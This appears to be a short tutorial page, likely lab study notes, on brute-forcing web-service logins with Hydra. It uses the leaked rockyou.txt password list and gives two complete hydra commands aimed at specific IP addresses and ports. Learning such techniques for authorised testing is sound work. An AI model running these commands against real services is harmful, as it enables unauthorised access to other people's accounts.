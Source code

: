# Username Brute Force using Hydra
***

#### The most used password wordlists is [rockyou.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz), having more than 14 million passwords, sorted by how common they are and collected from online leaked databases of passwords and usernames.

### Username/Password Attack
#### In order to perform a brute force attack against a webservice, we would need at least 3 specific flags when credentials are in one single list:
1. Credentials
2. Target Host
3. Target Path



### Example using one wordlist for username and password
```shell
$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 170.111.111.2 -s 1337 http-get /
```

### Username Brute Force
### Example Username Brute Force
```shell
$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```